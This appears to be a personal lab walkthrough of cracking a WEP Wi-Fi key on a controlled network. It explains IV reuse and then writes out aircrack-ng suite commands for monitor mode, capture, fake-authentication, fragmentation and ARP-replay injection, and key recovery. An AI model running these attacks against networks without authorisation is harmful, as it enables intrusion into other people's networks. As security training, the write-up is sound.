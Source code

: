 
> [!info]
> This was performed on a controlled network, meaning everything performed was both legal and ethical.

This walkthrough does not contain in-depth explanations of every tool used.  For references to the tools used, see my [Wireless Cheatsheet](../Notes/Wireless%20Cheatsheet.md).

## Overview
---
WEP (Wired Equivalent Privacy) is an outdated and insecure wireless network security protocol that was was introduced as a standard early on in Wi-Fi's lifecycle, but has since been deprecated and replaced by more secure methods.

Like WPA2-PSK, WEP uses a single shared key for authentication.  However, it uses much weaker encryption and relies on small Initialization Vectors (IVs) to be combined with the secret key in order to encrypt data that’s about to be transmitted. Because the IV's are only 24-bit (which is quite small) they end up being re-used with the same key, and since IV keys are transferred with the data in plaintext so that the receiving party is able to decrypt the communication, an attacker can capture these IVs.

By capturing enough repeating IVs, an attacker can easily crack the WEP secret key because they’re able to make sense of the encrypted data, and they’re able to decrypt the secret key.

## Generating & Capturing IVs
---

```bash
# View Current WiFi Driver
sudo airmon-ng
# Create Monitor Interface
sudo airmon-ng start <interface>
```

![[Pasted image 20231015005332.png]]

With the monitor interface configured, next I began sniffing the network to find what networks are available.

```shell
# See available networks/channels/security
sudo airodump-ng <mon_interface>
```
*(In this case, my monitor interface is wlan0mon)*

![[Pasted image 20231015162527.png]]

This revealed the SSID of the WEP network, that it's on channel 3, and that the MAC address is "02:13:37:BE:EF:03".

With this knowledge, I restarted my "airodump" listener, refining it to focus specifically on the target network.

```shell
# Capture wireless traffic to a file
sudo airodump-ng --bssid "02:13:37:BE:EF:03" -c 3 --write "<network_ssid>" wlan0mon
```
*(By specifying '--write', all traffic will be dumped into a file we can reference later.)*

With my listener capturing network traffic, I needed to collect a large enough quantity of network initialization vectors (IVs) to crack the passphrase.  To do this, I performed a handful of replay attacks on the network.  The below screenshot shows approximately 30 IVs -- in order to crack the network key, I ideally wanted to get this number well into the thousands.  

![[Pasted image 20231015162618.png]]

The attacks I utilized to increase IV quantity during this scenario were:
- Fake Authentication Attack
- Fragmentation Attack
- ARP Request Replay Attack

```shell
# Fake Authentication Attack with monitor interface MAC
sudo aireplay-ng --fakeauth 0 -a "02:13:37:BE:EF:03" -h "20:00:00:00:00:00" wlan0mon

# Fragmentation Attack with monitor interface MAC
sudo aireplay-ng --fragment -b "02:13:37:BE:EF:03" -h "20:00:00:00:00:00" wlan0mon

# ARP Request Replay Attack with authenticated client MAC
sudo aireplay-ng --arpreplay -b "02:13:37:BE:EF:03" -h "20:00:00:00:03:00" wlan0mon
```

![[Pasted image 20231015163034.png]]
![[Pasted image 20231015163058.png]]

After some time, I eventually got the IV count to near 100,000.  This was more than enough to crack the network key.

![[Pasted image 20231015163215.png]]

## Cracking the Passphrase
---

To crack the key, I utilized "aircrack-ng" and pointed it to my network capture file containing all the IV's in order to conduct a WEP key attack.

```shell
# WEP Key Attack
sudo aircrack-ng ./<network_ssid>-01.cap
```

![[Pasted image 20230428023356.png]]

```
# Network Key
2E:2C:F0:E3:FF
```
